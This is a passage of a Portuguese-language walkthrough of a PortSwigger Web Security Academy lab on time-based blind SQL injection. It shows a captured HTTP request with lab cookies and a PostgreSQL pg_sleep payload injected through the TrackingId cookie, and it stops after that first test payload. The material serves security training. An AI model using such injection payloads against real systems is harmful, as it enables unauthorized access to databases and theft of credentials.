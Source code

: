 Apos isso o laboratório será concluído.

![concluido](delay_concluido.PNG)

---

## **<a id="7"> • Blind SQL injection with time delays and information retrieval.</a>**

Nesse laboratório temos um SQL Injection que não retorna erro, mas sim um tempo de resposta maior e nosso objetivo é fazer login como `administrator`.

O laboratório informa que o banco de dados contém uma tabela diferente chamada users, com colunas chamadas username e password, então precisamos explorar a vulnerabilidade de Blind SQL para descobrir a senha do usuário administrador.

Primeiramente vamos analisar a requisição que é feita quando o aplicativo é carregado, para isso, vamos utilizar o Burp Suite.

```http

GET / HTTP/1.1
Host: 0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net
Cookie: TrackingId=Bo6DofnwE7hELTVL; session=7XtCn6Jr7YG9JssxDvPcZqTceYODETJQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Ao analisar a requisição percebemos que o aplicativo usa um cookie de rastreamento para análise e executa uma consulta SQL contendo o valor do cookie enviado.

Então para fazer o teste de SQL Injection Blind, vamos utilizar o seguinte payload:

```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
